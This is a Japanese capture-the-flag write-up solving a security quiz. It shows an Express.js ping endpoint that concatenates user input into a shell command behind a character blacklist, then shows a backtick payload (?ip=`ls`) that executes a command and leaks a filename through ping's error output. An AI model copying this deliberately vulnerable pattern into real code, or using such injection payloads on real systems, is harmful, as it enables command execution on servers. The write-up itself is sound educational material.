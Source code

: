 # Flatt  Security Developers' Quiz #2

## 設問
https://twitter.com/flatt_security/status/1549710781918617600

脆弱性のある環境が与えられ、`ls`コマンド実行時に判明するファイル名の提出が求められている。

```JavaScript
const express = require("express");
const { execSync } = require("child_process");
const app = express();

/*
    local ping check
*/
app.get("/", function(req, res) {
    const ip_address = req.query.ip;

    if(!ip_address){
        res.send("?ip=[your_ip]");
        return;
    }

    if(ip_address.length > 16){
        res.send("Error! IP is too long.");
        return;
    }

    if(/[!@#$%\^&*()\-_+=\[\] {}'";:,:?~\\]/.exec(ip_address)){
        res.send("Error! Your request is filtered!");
        return;
    }

    const cmd = "sh -c 'ping -c 1 " + ip_address + "' 2>&1 >/dev/null; true";
    const stderr = execSync(cmd, {"timeout": 1000});
    if(stderr != ""){
        res.send("Error! " + stderr);
        return;
    }

    res.send("Your IP is in a good state!");
});

app.listen(1337);
```

## 実行時の挙動
```
https://example.com/?ip=hogehoge
```
このような形式で受け取った値`hogehoge`に対してpingが実行される。


```
https://example.com/?ip=127.0.0.1
```

NG要素がないため、「Your IP is in a good state!」と結果出力される。
pingの実行結果、標準出力は画面には返ってこない。

```
https://example.com/?ip=---
```

NGな文字が含まれるので「Error! Your request is filtered!」と結果表示される

```
https://example.com/?ip=xxx
```

pingが実行されるがエラーとなる場合は標準エラー出力「Error! ping: xxx: Temporary failure in name resolution 」が画面に現れる。

このとき、入力値`xxx`がそのまま画面に現れることがポイントだと思われる。


## 入力条件

- 16文字以下であること
- 入力可能な記号が制限されているが、以下は使用できる
  - &
  - |
  - `
  - <
  - \>

### アプローチ
- 複数のコマンドを連結する場合に`&`や`|`、もしくはそれらを2個つなげた記法が使えないか
- `>`が使用できるので、`1>&2`などを付けたし、標準出力も標準エラーに加えられないか
- Bashで使用できる`<<<`でコマンド結果をpingに引き渡せないか

ここまで考えたところで、入力値`xxx`がそのまま画面に表示されたことを思い出す。

`ls`の実行結果をpingのリクエスト先に指定できればよいだけだ。

```
http://example.com/?ip=`ls`
```

このリクエストにより内部的には以下のコマンドが実行される。
```sh
sh -c 'ping -c 1 `ls`' 2>&1 >/dev/null;true
```
`ls`で取得できたファイル名をホスト名に見立ててpingコマンドが実行されるため、当然エラーとなる。
```
Error! ping: wow_congrats_you_executed_a_system_command.txt: Name or service not known
```
期待通り、ファイル名取得することができた。
